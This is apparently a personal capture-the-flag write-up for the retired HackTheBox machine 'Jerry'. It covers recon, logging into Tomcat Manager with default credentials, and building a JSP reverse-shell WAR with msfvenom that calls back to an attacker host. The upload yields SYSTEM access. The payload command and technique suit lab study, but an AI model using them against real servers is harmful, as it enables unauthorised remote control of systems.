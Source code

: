 # Jerry
Name: Jerry  
Date: 
Difficulty:  
Description:  
Better Description:  
Goals:  
Learnt:

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Jerry/Screenshots/ping.png)

Nuclei found a default login for Tomcat Manager see [[tomcat-default-login-http___10.129.99.114_8080_manager_html]]. Nikto also

## Foothold

Using default credentials to access the Tomcat Manager, we can upload a WAR file to deploy a shell.
![footholdposs](Screenshots/footholdposs.png)

Using msfvenom
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f war -o shell.war
```

Uploaded the file and the clicked the /shell listing. 

![foothold](Screenshots/foothold.png)

## Well

You are `nt authority\system` so...
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeAssignPrimaryTokenPrivilege   Replace a process level token             Disabled
SeLockMemoryPrivilege           Lock pages in memory                      Enabled 
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeTcbPrivilege                  Act as part of the operating system       Enabled 
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Enabled 
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled 
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled 
SeCreatePagefilePrivilege       Create a pagefile                         Enabled 
SeCreatePermanentPrivilege      Create permanent shared objects           Enabled 
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeAuditPrivilege                Generate security audits                  Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled 
SeTimeZonePrivilege             Change the time zone                      Enabled 
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```

Flags are in `C:\Users\Adminstrator\Desktop\flags`
You can escape windows file names with spaces with a `"2 for the price of 1.txt"`

## References

[vk9-sec - Tomcat manager research](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)


      
